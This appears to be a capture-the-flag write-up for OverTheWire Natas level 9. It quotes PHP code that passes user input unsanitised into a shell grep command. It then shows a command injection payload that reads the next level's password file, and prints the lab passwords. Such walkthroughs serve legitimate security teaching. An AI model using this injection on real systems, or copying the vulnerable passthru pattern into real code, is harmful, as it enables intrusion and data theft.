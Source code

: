 # Level 9

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas9.natas.labs.overthewire.org](http://natas9.natas.labs.overthewire.org)
- username: `natas9`
- password: `Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd`

## Solution

![start](./start.jpg)

Let's see the sourcecode:

```php
...
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
...
```

Our input will be pasted here `grep -i $key dictionary.txt`, so we can enter `; cat /etc/natas_webpass/natas10;`, so the final command on the server will be `grep -i; cat /etc/natas_webpass/natas10;dictionary.txt` *(`;` is command separator in bash)*.

## Password

`natas10`:`D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE `

*Created by [bu19akov](https://github.com/bu19akov)*